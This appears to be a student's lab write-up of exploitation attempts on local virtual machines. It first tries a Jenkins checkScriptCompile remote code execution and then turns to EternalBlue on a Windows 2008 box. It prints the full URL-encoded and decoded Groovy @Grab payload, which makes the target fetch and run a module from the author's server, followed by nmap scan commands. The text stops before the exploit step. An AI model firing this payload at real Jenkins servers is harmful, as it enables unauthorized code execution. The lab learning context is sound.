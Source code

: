With this information I tried to execute a simple code on the jenkins to see how it is working. Before it, I start a simple python server on my host. I only wanted to test how it is working.

```
http://192.168.122.117:8080/descriptorByName/org.jenkinsci.plugins.workflow.cps.CpsFlowDefinition/checkScriptCompile?value=@GrabConfig(disableChecksums=true)%0A@GrabResolver(name=%27orange.tw%27,%20root=%27http://192.168.43.167/%27)%0A@Grab(group=%27tw.orange%27,%20module=%27poc%27,%20version=%271%27)%0Aimport%20Orange
```

The parameters without url encoding is like (it is intened to redirect it to a malicious server, my local server):

```
@GrabConfig(disableChecksums=true)
@GrabResolver(name='orange.tw', root='http://192.168.43.167/')
@Grab(group='tw.orange', module='poc', version='1')
import Orange;
```

Buuuuuut, the problem arised here, unfortunatly.



![](https://i.imgur.com/8kCLejr.png)



I tried about a day to configure it but I couldn't :((

As a result, I changed and used a "CVE-2017-0144 - EternalBlue".

For this one, I download an "ova" file for windows 2008 and tried the following steps to exploit it.

First of all, I needed to find the ip address of my vulnerable server:

```
nmap 10.1.1.0/24
```

And successfully, found.


    
![](https://i.imgur.com/Qq28XGJ.png)


I need to see the detail information about this server so:
use the following command:

```
nmap -sC -sV -Pn 10.1.1.69
```

    
![](https://i.imgur.com/f4FhZK1.png)


Using the following cammand will check if this machine has the vulnerability or not that the answer is yes.

